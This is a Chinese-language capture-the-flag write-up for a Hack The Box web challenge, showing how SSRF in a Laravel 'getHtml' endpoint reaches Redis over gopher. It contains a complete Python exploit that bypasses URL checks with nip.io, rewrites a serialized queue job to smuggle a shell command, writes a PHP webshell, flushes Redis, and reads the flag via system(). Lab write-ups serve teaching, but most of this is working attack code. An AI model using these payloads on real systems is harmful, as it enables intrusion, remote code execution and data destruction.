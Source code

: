 这道题的gethtml功能有ssrf的功能点：
```php
class SiteShotController extends Controller
{
    public function getHtml(Request $request)
    {
        $site = $request->input('site');

        if (!$this->validateurl($site)) {
            return  response()->json([
                'status' => 'failed',
                'message' => 'Dont do naughty stuff.'
            ]);
        }

        if (!isset($site)) {
            return response()->json([
                'status' => 'failed',
                'message' => 'Need site parameter'
            ]);
        }

        $ssSrv = new SiteShotService();

        return $ssSrv->getHtmlResp($site);
    }
```
$ssSrv->getHtmlResp用了curl
在靶机的环境中是可以用gopher协议等等去打的
但是要绕过validateurl的校验，这个函数不允许传入本地ipv4地址或者不正常的域名（只能包含数字和-）
但是可以dns重绑定绕过这个校验，可以用nip.io这个已经预设的域名，相当强大，通过一定结构的域名可以指向任何ip


在给的附件里面的.env还可以发现跑着redis服务，redis服务是用来存储任务队列的。即filequeue


主要是下面的代码
```php
 $rf = new rmFile($filequeue);
            Queue::push($rf);
```

框架会对filequeue序列化并且转化为json格式放入redis的laravel_database_queues:default中（键名），对每一个队列中的任务执行rmfile的handle方法
即fileQueue->deleteFile();
deletefile用的是filequeue对象的uuid和txt属性去拼接一个filepath，但是实际上ssrf后uuid是可控的，因为要从redis中反序列化出这个字段，而我们是可以通过ssrf
去修改laravel_database_queues:default中相应索引的任务的属性来劫持反序列化的属性的，然后控制传入 system("rm ".$filepath);的filepath参数，从而写入php shell

网上的redis攻击方法说的改config是不行的，config在高版本上了包含，dir切换不了，运行阶段是无法关闭保护的
可以先用在框里面输入dict://test.127-0-0-1.nip.io:6379/info然后gethtml来测试redis联通性
联通后用下面的脚本去打：

```python
import html.entities
import urllib.parse
import requests
import json
import logging
s=r'{"uuid":"1c0d0b12-641d-49ae-a8f6-5f342fa91e22","displayName":"App\\Jobs\\rmFile","job":"Illuminate\\Queue\\CallQueuedHandler@call","maxTries":null,"maxExceptions":null,"failOnTimeout":false,"backoff":null,"timeout":null,"retryUntil":null,"data":{"commandName":"App\\Jobs\\rmFile","command":"O:15:\"App\\Jobs\\rmFile\":1:{s:9:\"fileQueue\";O:21:\"App\\Message\\FileQueue\":3:{s:8:\"filePath\";s:35:\"$(touch /www/public/shell.php).txt;\";s:4:\"uuid\";s:66:\"404;echo \"<?php eval(\\$_GET[0]);\" > /www/public/shell.php;touch aa\";s:3:\"ext\";s:3:\"txt\";}}"},"id":"kFmxDNJFXkM5ZFNBXWZdUfVUknKQoksy","attempts":0}'#要改uuid成别的的话自己修正一下uuid的长度，把s:67改成别的，改filepath没用
objlen=len(s)
htmlencode=urllib.parse.quote(s)
print(htmlencode)
ssrf=r"gopher://127-0-0-1.nip.io:6379/_"+((r"*4\n$4\nlset\n$31\nlaravel_database_queues:default\n$1\n0\n${}\n{}\n".format(objlen,htmlencode).replace(r"\n",r"%0d%0a")+r"*1%0d%0a%244%0d%0aquit%0d%0a"))
d=r"dict://127-0-0-1.nip.io:6379/flushall"
show=r"gopher://127-0-0-1.nip.io:6379/_"+((r"*3\n$6\nlindex\n$31\nlaravel_database_queues:default\n$1\n0\n".replace(r"\n",r"%0d%0a")+r"*1%0d%0a%244%0d%0aquit%0d%0a"))
print(ssrf)
flush=r"gopher://127-0-0-1.nip.io:6379/_"+((r"*1\n$8\nflushall\n".replace(r"\n",r"%0d%0a")+r"*1%0d%0a%244%0d%0aquit%0d%0a"))
test=r"gopher://127-0-0-1.nip.io:6379/_"+((r"*4\n$4\nlset\n$31\nlaravel_database_queues:default\n$1\n0\n$554\n%7b%22uuid%22%3a%22812d6caf-9d25-42cd-893c-7696a493524d%22%2c%22displayName%22%3a%22App%5c%5cJobs%5c%5crmFile%22%2c%22job%22%3a%22Illuminate%5c%5cQueue%5c%5cCallQueuedHandler%40call%22%2c%22maxTries%22%3anull%2c%22maxExceptions%22%3anull%2c%22failOnTimeout%22%3afalse%2c%22backoff%22%3anull%2c%22timeout%22%3anull%2c%22retryUntil%22%3anull%2c%22data%22%3a%7b%22commandName%22%3a%22App%5c%5cJobs%5c%5crmFile%22%2c%22command%22%3a%22O%3a15%3a%5c%22App%5c%5cJobs%5c%5crmFile%5c%22%3a1%3a%7bs%3a9%3a%5c%22fileQueue%5c%22%3bO%3a21%3a%5c%22App%5c%5cMessage%5c%5cFileQueue%5c%22%3a3%3a%7bs%3a8%3a%5c%22filePath%5c%22%3bs%3a45%3a%5c%22%5c%2fsrc%5c%2f1356bb54-1c72-40fe-93ed-78fd5907af51.txt%5c%22%3bs%3a4%3a%5c%22uuid%5c%22%3bs%3a1%3a%5c%221%5c%22%3bs%3a3%3a%5c%22ext%5c%22%3bs%3a3%3a%5c%22txt%5c%22%3b%7d%7d%22%7d%2c%22id%22%3a%22SZ9ZKmfSw3zicR6kc9nvKTwL495P2iUN%22%2c%22attempts%22%3a0%7d\n".replace(r"\n",r"%0d%0a").replace("+","%20")+r"*1%0d%0a%244%0d%0aquit%0d%0a"))
url="http://192.168.205.128:1337/api/get-html"#改一下ip和端口
html="https://www.google.com/"
a=requests.post(url,data={"site":ssrf})  #ssrf是写马，show是查看上传的payload，flush是删除所有队列任务
print(a.text)
b=requests.get("http://192.168.205.128:1337"+a.json()["filename"]) #改一下ip和端口
print(b.text)
```
如果自己去写脚本注意redis的tcp流格式和php反序列化的格式（注意转义）
改了序列后要等一段时间，等进程执行这个任务就可以了

然后访问http://ip:port/shell.php?0=system(%27cat%20/flag%27);
得到flag HTB{my_j0b_qu3u3_h4s_h0l3s}
